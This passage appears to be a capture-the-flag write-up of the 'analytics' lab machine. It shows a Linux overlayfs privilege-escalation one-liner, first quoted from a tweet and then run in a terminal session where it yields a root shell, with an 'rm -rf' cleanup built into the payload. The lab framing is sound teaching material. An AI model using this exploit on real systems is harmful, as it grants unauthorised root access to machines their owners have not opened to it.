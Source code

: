As this tweets says,  
> Exploit is so easy it fits in a tweet🔥
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'

This is the exploit:

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; id")'
```

And by changing the last command to `os.system("rm -rf l m u w; bash")` we can get a root shell.

```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; bash")'
root@analytics:~#
```

Now we can get the root flag.

Done!! 